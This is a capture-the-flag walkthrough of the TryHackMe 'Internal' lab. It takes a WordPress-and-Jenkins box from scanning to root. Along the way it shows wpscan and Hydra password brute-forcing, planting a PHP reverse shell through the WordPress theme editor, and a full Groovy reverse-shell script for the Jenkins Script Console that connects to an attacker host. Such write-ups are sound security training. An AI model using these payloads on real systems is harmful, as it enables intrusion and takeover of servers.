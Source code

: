 # Internal

Link: [Internal](https://tryhackme.com/room/internal)

## High-Level Overview

Penetration Testing Challenge

## Tools Needed

* Nmap
* Gobuster
* Wpscan
* Nc
* OWASP ZAP

## Walkthrough

```bash
$ sudo nano /etc/hosts
# MACHINE:IP    internal.thm
```

After starting the machine, we will perform initial scans using `nmap`:

```bash
$ sudo nmap -sS -p- -Pn -A -vv -T5 internal.thm
$ sudo nmap -sU -Pn -p- -T5 -vv internal.thm --max-rtt-timeout 500ms --initial-rtt-timeout 250ms --max-retries 2
```

We can see that the following ports & services are in use:

* 22 - ssh
* 80 - http

Performing a vulnerability scan using `nmap` on the identified ports to see if we can exploit any CVEs:

```bash
$ git clone https://github.com/scipag/vulscan
$ sudo nmap -p 22,80 -Pn -A -vv -T5 --script=vulscan/vulscan.nse internal.thm
```

Since we have a web application running, we can run `gobuster` and see if we have any interesting results:

```bash
$ gobuster dir -u http://internal.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php, php5, htm, html
$ gobuster vhost -u http://internal.thm -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt --exclude-length 422
```

We are greeted with a Apache2 landing page if we visit `http://internal.thm` in our browser.

However, in our gobuster scan we can see a few interesting results: `/blog`, `/wordpress`, `/javascript`, `/phpmyadmin`.

Performing additional enumeration using `gobuster` on the `/blog` page:

```bash
$ gobuster dir -u http://internal.thm/blog -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php, php5, htm, html
```

Here we can also see a login portal located at `http://internal.thm/blog/wp-login.php`.

Seems like we are dealing with Wordpress.

We can use `wpscan` to see if there are any vulnerable plugins or other interesting information:

```bash
$ wpscan --url http://internal.thm/blog -e vp,u
```

We were able to find a valid username, `admin`. Knowing this, we can use `wpscan` again, but this time we will see if we can get this user's password:

```bash
$ wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

After about 1 minute, we can see that a password has been found: `my2boys`.

We can use the credentials `admin` - `my2boys` to log in the admin dashboard by visiting the URL `http://internal.thm/blog/wp-login.php/` in our browser.

Now that we have access to the CMS, we explore the functionalities of the application. Going to all the posts, we see there is a post that wasn't published. Opening it takes us to `http://internal.thm/blog/wp-admin/post.php?post=5&action=edit`, where we can see another set of credentials is revealed: `william` - `arnold147`. However, it seems that we cannot use these credentials for either WordPress or SSH.

To get access to this machine, we will try uploading a php reverse shell by using the Theme Editor feature of WordPress. First we download a php reverse shell using the command:

```bash
$ git clone https://github.com/pentestmonkey/php-reverse-shell
```

Then, we will change the contents of the `php-reverse-shell.php` file to contain the IP address of our attacking machine.

On the WordPress Dashboard, we will go to `Appearance` > `Theme Editor` > `404`, and replace the contents of this file with the contents of our `php-reverse-shell.php`, then click `Apply`.

On our attacking machine, we will start a `nc` listener using the command:

```bash
$ nc -lvnp 1234
```

To trigger the payload, we must navigate to `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`.

After doing that, we should have a reverse shell as `www-data`.

Time to perform some enumeration to see if we can escalate privileges.

Looking around the file system, going to the `opt` directory, we can see there is a file `wp-save.txt` that contains some credentials: `aubreanna` - `bubb13guM!@#123`. Additionally, there is another file named `containerd`. With our current user we cannot view the contents of the file.

We can confirm that `aubreanna` is a user on this machine by reading the contents of `/etc/passwd`. We can use these credentials to log in over SSH:

```bash
$ ssh aubreanna@internal.thm 
```

Once we are logged in, we can see our first flag in the current folder at `user.txt`. Additionally, we can see a file called `jenkins.txt`. It contains the message:

```
Internal Jenkins service is running on 172.17.0.2:8080
```

We can verify this using `netstat`:

```bash
$ netstat -ano
```

We can access this service from our attacking machine by using a SSH tunnel:

```bash
$ ssh -L 4444:172.17.0.2:8080 aubreanna@internal.thm
```

From this session, we can see wwe have access to the `docker0` interface `172.17.0.1`.

We can see the `Jenkins` instance running by visiting `http://127.0.0.1:4444/` in our browser.

We can open `BurpSuite` to intercept a login request, and it looks like:

```
POST /j_acegi_security_check HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 57
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/login?from=%2F
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID.c85d0977=node0gr5uffoq9h11nsocp4mi5eap1.node0
Connection: close

j_username=admin&j_password=12345&from=%2F&Submit=Sign+in
```

We can use `Hydra` to brute-force the login form:

```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 -V http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -f
```

Seems like the password for the user `admin` is `spongebob`.

After we log in to the `Jenkins` instance, we can go to `Manage Jenkins` on the left side of the dashboard and then find `Script Console`. We can try to exploit the functionality of this feature to get a reverse shell. We can type in the following code:

```
String host="ATTACKER:IP";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

In a terminal window, we should start a nc listner:

```bash
$ nc -lvnp 1234
```

We should now have a reverse shell as the user `jenkins`. We should enumerate again to see if we can escalate privileges. In the `opt` directory, we find a file `note.txt` that seems to have the root credentials: `root` - `tr0ub13guM!@#123`.

We can use those credentials to log in as `root` over SSH:

```bash
$ ssh root@internal.thm
```

We can see the final flag waiting for us in `root` home directory.